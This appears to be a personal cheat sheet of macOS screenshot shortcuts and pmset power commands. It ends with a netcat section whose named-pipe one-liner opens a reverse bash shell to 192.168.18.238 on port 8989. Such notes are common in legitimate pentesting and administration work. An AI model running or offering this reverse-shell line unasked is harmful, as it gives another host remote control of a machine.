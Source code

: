 # Screenshots
## OS X
- Command-Shift-3: Full screen to desktop
- Command-Shift-4, select an area: Area to desktop
- Command-Shift-4, space, click a window: Window to desktop
- Command-Control-Shift-3: Full screen to clipboard
- Command-Control-Shift-4, select an area: Area to clipboard
- Command-Control-Shift-4, space, click a window: Window to clipboard

# OS X Power Saving
- Temporarily turn off sleep: *sudo pmset noidle*
- Turn off sleep: *sudo pmset sleep 0*
- Sleep after 15 minutes: *sudo pmset sleep 15*

# Netcat
- When -e flag does not exist:

mknod /tmp/datapipe p
/bin/bash 0</tmp/datapipe |nc 192.168.18.238 8989 1>/tmp/datapipe

